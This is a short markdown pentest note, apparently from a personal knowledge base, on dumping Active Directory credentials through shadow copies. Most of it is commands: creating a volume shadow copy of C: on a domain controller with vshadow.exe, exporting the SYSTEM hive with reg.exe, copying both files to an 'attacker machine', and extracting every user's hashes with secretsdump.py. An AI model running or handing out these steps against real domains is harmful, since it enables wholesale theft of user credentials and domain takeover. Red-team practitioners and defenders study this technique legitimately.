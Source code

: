 ```yaml
---
id: Shadow Copies
aliases:
  - Shadow Copies
tags:
  - windows
  - AD
  - persistence
---
```

Steal the AD's NTDS.dit DB file & the SYSTEM hive to exectract every user credential.
## In practice

1. On DC, as admin, create the backup:
```cmd
vshadow.exe -nw -p C:
```

2. Grab the value of "Shadow copy device name" from above output, and copy it to attacker machine.

3. Extract the SYSTEM hive, and copy it to attacker machine:
```cmd
reg.exe export HKLM\SYSTEM C:\SYSTEM.reg
```

4. Extract the hashes locally:
```bash
secretsdump.py -ntds $NTDS_FILE -system $REG_FILE LOCAL
```
